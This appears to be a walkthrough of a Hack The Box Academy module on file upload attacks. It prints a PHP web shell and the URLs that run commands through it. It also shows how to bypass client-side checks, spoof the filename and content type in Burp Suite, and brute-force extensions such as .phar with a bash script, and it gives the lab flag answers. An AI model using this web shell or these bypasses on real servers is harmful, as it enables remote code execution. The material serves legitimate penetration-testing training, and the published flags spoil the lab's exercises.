Welcome to **Part 29** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **File Upload Attacks** (Tier II • Medium • Offensive). We break down the underlying mechanics of unrestricted file upload vulnerabilities, extension validation bypasses, MIME-type spoofing, magic byte manipulation, polyglot payloads, and web shell execution, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-28-cross-site-scripting-xss/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 28: Cross-Site Scripting (XSS) Exploitation</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 29 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-30-web-attacks/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 30: Web Attacks (HTTP Verb Tampering & IDOR)</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `File Upload Attacks` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/136](https://academy.hackthebox.com/module/136) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 29 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Validation Architecture**: Analyzes client-side JavaScript validation, server-side extension checks, MIME-type verification, and magic byte inspection.
* **Extension Bypass Techniques**: Bypasses blacklists using alternate extensions (`.phtml`, `.php5`, `.phar`, `.pht`), case variations, and double extensions (`.php.jpg`).
* **MIME-Type & Magic Byte Spoofing**: Modifies `Content-Type` headers to `image/jpeg` and prepends GIF/PNG magic bytes (`GIF89a;`) to executable scripts.
* **Polyglot Payload Engineering**: Embeds functional PHP web shells into valid image metadata (EXIF data) that survive image processing libraries.
* **Upload Storage Exploitation**: Leverages directory traversal in file names (`../../shell.php`) to force file placement into executable web roots.

## Executive Summary & Assessment Scope

File upload functionality is a common feature in modern web applications for user profile images, documents, and media. When upload handlers fail to strictly validate file types, extensions, and content, attackers can upload executable web shells that grant instant remote code execution.

This module delivers an exhaustive technical breakdown of file upload exploitation. We bypass client-side validation, circumvent extension blacklists, craft polyglot payloads, execute web shells, and capture all assessment flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### File Upload Attacks

> **Lab Question (Page 1)**: Try to upload a PHP script that executes the (hostname) command on the back-end server, and submit the first word of it as the answer .
>
> **Flag / Answer**: `fileuploadsabsentverification`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will create php web-shell script file to be uploaded and executed.
On the attacking pwnbox, lets create a file called 'webshell.php' , and in it we
enter the payload:
<?php system($_GET['cmd']); ?>


Now that the payload is ready in the 'webshell.file' – lets enter the target
server website in the browser URL:
`http://<target-IP>:<target-port>`


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


*_Figure 1.2 — Lab execution and output verification (Page 1)_*


### Lets select the webshell.php file

Lets select the webshell.php file:

And upload:

File sucsessfully uploaded. Attempting to download the file will reveal to us:

That the file is located in '/uploads/ path folder .
Now lets to to the URL link:
`http://<target-IP>:<target-port>/uploads/webshell?cmd=hostname`


The answer is the second word.


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


*_Figure 2.3 — Lab execution and output verification (Page 2)_*


*_Figure 2.4 — Lab execution and output verification (Page 2)_*


### Upload Exploitation

> **Lab Question (Page 3)**: Try to exploit the upload feature to upload a web shell and get the content of /flag.txt
>
> **Flag / Answer**: `HTB{g07_my_f1r57_w3b_5h3ll}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

continuing from the previous section – we enter the URL:
`http://<target-IP>:<target-port>/uploads/webshell.php?cmd=cat%20/flag.txt`


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


### Client-Side Validation

> **Lab Question (Page 4)**: Try to bypass the client-side file type validations in the above exercise, then upload a web shell to read /flag.txt (try both bypass methods for better practice)
>
> **Flag / Answer**: `HTB{cl13n7_51d3_v4l1d4710n_w0n7_570p_m3}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Method 1: lets enter the target server website in the browser:
`http://<target-IP>:<target-port>`
and attempt to upload the same webshell from previous sections:

Only images are allowed.
So lets identify the code section in the page source code, in developer tools
that does the client size validation, and disable it:


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### go to get the flag

That would be the if statement in the marked part. Lets remove it:

now we try to upload the webshell again. We will have the confirmation on the
developer tools (it will not be shown on the web page itself)

As we can see, the webshell.php is located at '/profile_images' – there we will
go to get the flag:
`http://<target-IP>:<target-port>/profile_images/webshell.php?cmd=cat /flag.txt`


Method 2: we will use burpsuite to avoid the browser validation all together.
Lets open burpsuite, and go to the website from the burpsuite browser.
However in the browser, we will upload a legitimate image:


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


*_Figure 5.3 — Lab execution and output verification (Page 5)_*


### image name as 'webshell.php'

In the screenshot, we can see the filename 'bird.jpg' , content type is
'image/jpeg', and the green part is the image content. Lets change all of those
to our webshell – we replace the image content with our payload, and set the
image name as 'webshell.php':

And forward.
Now the webshell.php should be uploaded on the servers. So lets set the
interceptor off. And go again to the same URL path to retrieve the '/flag.txt' via
the webshell:
`http://<target-IP>:<target-port>/profile_images/webshell.php?cmd=cat /flag.txt`


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


*_Figure 6.3 — Lab execution and output verification (Page 6)_*


### Blacklist Filters

> **Lab Question (Page 7)**: Try to find an extension that is not blacklisted and can execute PHP code on the web server, and use it to read "/flag.txt"
>
> **Flag / Answer**: `HTB{1_c4n_n3v3r_b3_bl4ckl1573d}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in here there is server side validations, so our little trick from the
previous wont work.
Anyway we will use a bash script that automates the process. The script (self
made), can be downloaded from here. It's called
'automated_blacklist_checker.sh'.
What the script does – it finds a good extension which is allowed by the server,
and supports php execution.
IT DOES NOT CREATES THE WEBSHELL FOR US.

Once downloaded to the pwnbox: we will first modify the TARGET_SERVER
variable with the target IP and port (from '`<target-IP>`:`<target-port>`')

Next, we will grant the .sh file execution permissions:
```bash
chmod u+x automated_blacklist_checker.sh
```


Now, when attempting to execute the '.sh' file which was downloaded, it is
possible we encounter the following error:
```bash
chmod u+x automated_blacklist_checker.sh
```


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


### We will fix it with the following command

#### Technical Methodology & Exploit Execution:

dos2unix automated_blacklist_checker.sh


Now the script is ready to run. But we do need wordlist first, we will use the
'web-extensions.txt' wordlist, in the pwnbox it is located at
'/usr/share/seclists/Discovery/Web-Content/web-extensions.txt'.
Lets copy it to our current working directory:
cp /usr/share/seclists/Discovery/Web-Content/web-extensions.txt web-extensions.txt


*note – the wordlist 'web-extensions.txt' is hardcoded in the script. *

Now when both the script and wordlist are ready to run – we run:
./automated_blacklist_checker.sh


The script found the extension '.phar' to be good for php execution. We will use
that to upload our webshell.


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


*_Figure 8.4 — Lab execution and output verification (Page 8)_*


### As 'webshell.phar' to the server

Now, lets use the burpsuite repeater to upload the webshell script:
<?php system($_GET['cmd']); ?>
As 'webshell.phar' to the server:

All we have to do now, is to go in the browser (normal or burpsuite) to
`http://<target-IP>:<target-port>/profile_images/webshell.phar?cmd=cat /flag.txt`


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### Whitelist Filters

> **Lab Question (Page 10)**: The above exercise employs a blacklist and a whitelist test to block unwanted extensions and only allow image extensions. Try to bypass both to upload a PHP script and execute code to read "/flag.txt"
>
> **Flag / Answer**: `HTB{1_wh173l157_my53lf}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, lets see what happens when we attempt to upload the
'webshell.phar' from the previous question:

'Only images are allowed' . The 'automated_blacklist_checker .sh' also won't find
it, or detect any workable extension with the default 'web-extensions.txt'
wordlist.

So, what we will do, is to 'coat' to the extensions with extensions of images –
so make the target web-server think it is an image.
However as we cannot be certain that this target machine still works with the
'.phar' extension – we will reconfirm it.

We will use a bash script that will take every extension in 'web-extensions.txt'
and concatenate the following 4 extensions into it: '.png' , '.jpg', '.jpeg' , '.gif'.
The script will save the output in a file 'web-extensions-double.txt':


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


#!/bin/bash

# Input and output files
INPUT_FILE="web-extensions.txt"
OUTPUT_FILE="web-extensions-double.txt"

# Clear the output file if it exists
> $OUTPUT_FILE

# Loop through each line (extension) in the input file
while read -r EXT; do
```bash
echo "$EXT.png" >> $OUTPUT_FILE
echo "$EXT.jpg" >> $OUTPUT_FILE
echo "$EXT.jpeg" >> $OUTPUT_FILE
echo "$EXT.gif" >> $OUTPUT_FILE
```
done < "$INPUT_FILE"

# Notify user
```bash
echo "Results written to $OUTPUT_FILE"
```
we will call this script 'double_ext_maker .sh'

*we make sure that the input file 'web-extensions.txt' is at the same directory
with the 'double_ext_maker.sh' . *


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


### new list instead of the original one

Lets grant the script permissions, run it, and take a peek in the output file:
```bash
chmod u+x double_ext_maker.sh;
./double_ext_maker.sh;
head -8 web-extensions-double.txt;
```


Now that we have the general grasp of the double extensions list – lets modify
the 'automated_blacklist_checker .sh' from previous section – to work with the
new list instead of the original one:

Now that the 'automated_blacklist_checker .sh' was modified to work with
'web-extensions-double.txt' – lets run it:


*_Figure 12.1 — Lab execution and output verification (Page 12)_*

